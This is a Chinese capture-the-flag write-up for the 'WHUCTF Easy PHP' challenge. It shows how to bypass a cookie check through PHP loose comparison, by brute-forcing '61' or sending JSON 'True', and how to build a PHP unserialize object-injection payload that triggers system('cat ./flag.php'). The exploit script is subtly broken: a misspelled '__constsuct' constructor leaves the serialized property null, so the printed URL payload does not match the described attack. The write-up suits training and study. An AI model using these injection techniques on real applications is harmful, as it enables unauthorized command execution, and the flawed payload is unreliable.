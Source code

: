 # WHUCTF Easy PHP

绕过 + 反序列化

## Analysis

### Source Code

	<?php
	error_reporting(0);
	include 'flag.php';
	highlight_file(__FILE__);
	
	if (!$_COOKIE['admin']) {
	    exit("\nNot authenticated.\n");
	}
	
	if (!preg_match('/^{"hash": [\w\"]+}$/', $_COOKIE['admin'])){
	    exit("还看不懂正则表达式? 还不快去百度! \n");
	}
	$session_data = json_decode($_COOKIE['admin'], true);
	
	if ($session_data['hash'] != strtoupper(MD5($flag))) {
	    echo("给你个提示吧 \n");
	    for ($i = 0; $i < 32; $i++) {
	        echo(ord(MD5($flag)[$i]) >> 6);
	    }
	    exit("\n");
	}
	
	class WHUCTF {
	    protected $stu;
	    function __construct() {
	        $this->stu = new Study();
	    }
	    function __destruct() {
	        $this->stu->action();
	    }
	}
	class Study {
	    function action() {
	        echo "CTF 真好玩~";
	    }
	}
	class Evil {
	    function action() {
	        system('cat ./flag.php');
	    }
	}
	
	echo "这么明显了,你懂我意思吧";
	unserialize($_GET['whuctf']);

这里有两个绕过点：

1）首先构造合适的 `Cookie:admin={"hash": xxxx}`，
这里的`xxxx`必须为字母数字下划线组成的字符串，
但是这个`xxxx`的值需要与`md5($flag)`弱相等。

分析下面的源码：

	if ($session_data['hash'] != strtoupper(MD5($flag))) {
	    echo("给你个提示吧 \n");
	    for ($i = 0; $i < 32; $i++) {
	        echo(ord(MD5($flag)[$i]) >> 6);
	    }
	    exit("\n");
	}

结合提示：

	给你个提示吧 
	00111110000000110000000101011110
 
它给的提示其实是将每一位右移6之后得到的结果：`00111110000000110000000101011110`，其中的`echo(ord(MD5($flag)[$i]) >> 6);`
输出flag md5每一位右移6位后的结果，分析一下：

若是字母输出1，数字输出0，我们可以判断出flag md5值前2位小于64为数字。再通过php弱类型比较：

	if ($session_data['hash'] != strtoupper(MD5($flag))) {
	    echo("给你个提示吧 \n");
	    for ($i = 0; $i < 32; $i++) {
	        echo(ord(MD5($flag)[$i]) >> 6);
	    }
	    exit("\n");
	}

利用burp从0到99爆破，在61就发现绕过了这一限制，所以最终Cookie设置为：`Cookie:admin={"hash": 61}`

绕过第一关！！！

### 非预期：

这上面是一个预期解，还有一个非预期解，由于正则过滤不严，本来hash值的内容只应允许输入md5包含的字符即\[0-9a-f\]

若输入值为`admin={"hash": True}`，使用json_decode可以将hash值解析为布尔值True，而我们知道php弱类型特性：

![](./index_files/whuctf_easyphp.png)

因此也可以通过这个部分绕过。

## unserialize

### 接下来就是构造反序列化：

	class WHUCTF {
	    protected $stu;
	    function __construct() {
	        $this->stu = new Study();
	    }
	    function __destruct() {
	        $this->stu->action();
	    }
	}
	class Study {
	    function action() {
	        echo "CTF 真好玩~";
	    }
	}
	class Evil {
	    function action() {
	        system('cat ./flag.php');
	    }
	}
	
	echo "这么明显了,你懂我意思吧";
	unserialize($_GET['whuctf']);

反序列化原理是你正常序列化出来是：`O:6:"WHUCTF":1:{s:6:" * stu";O:5:"Study":0:{}}`

然后改成：`O:6:"WHUCTF":1:{s:6:" * stu";O:4:"Evil":0:{}}`，再`urlencode`一下。

### Payload
	<?php
	class WHUCTF {
		protected $stu;
		function __constsuct(){
			$this->stu = new Evil();
		}
		function __destruct(){
			$this->stu->action();
		}
	}
	class Study{
		function action(){
		echo "CTF 真好玩~";
		}
	}
	class Evil{
		function action(){
			system('cat./flag.php');
		}
	}
	$a = new WHUCTF();
	echo serialize($a);				// O:6:"WHUCTF":1:{s:6:"*stu";N;}
	echo urlencode(serialize($a));	// O%3A6%3A%22WHUCTF%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00stu%22%3BN%3B%7D

结果：

	dmsj.php?whuctf=O%3A6%3A%22WHUCTF%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00stu%22%3BN%3B%7D
